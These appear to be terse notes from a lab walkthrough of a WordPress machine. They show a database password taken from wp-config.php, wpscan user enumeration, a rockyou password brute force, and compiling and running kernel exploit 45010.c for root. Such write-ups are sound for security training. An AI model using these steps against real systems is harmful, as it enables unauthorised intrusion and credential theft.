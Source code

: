 since it is wp, so we need check wp-config.php

/** MySQL database password */
define( 'DB_PASSWORD', 'lolyisabeautifulgirl' );

after upload, it told file inside banners, it means
/wordpress/wp-content/banners

```

wpscan --url http://192.168.137.147/wordpress --enumerate u
```
find user

```
wpscan --url http://192.168.137.147/wordpress --passwords /usr/share/wordlists/rockyou.txt --usernames loly
```
find pw

uname -a
Linux ubuntu 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux

this is a old one, so we can exploit kernel , 45010.c will work

www-data@ubuntu:/tmp$ gcc 45010.c -o privesc  
gcc 45010.c -o privesc  
gcc: error trying to exec 'cc1': execvp: No such file or directory  
www-data@ubuntu:/tmp$ find /usr -name cc1  
find /usr -name cc1  
/usr/lib/gcc/x86_64-linux-gnu/5/cc1  
www-data@ubuntu:/tmp$ export PATH=$PATH:/usr/lib/gcc/x86_64-linux-gnu/5/cc1  
export PATH=$PATH:/usr/lib/gcc/x86_64-linux-gnu/5/cc1  
www-data@ubuntu:/tmp$ gcc 45010.c -o privesc  
gcc 45010.c -o privesc  
www-data@ubuntu:/tmp$ ./privesc

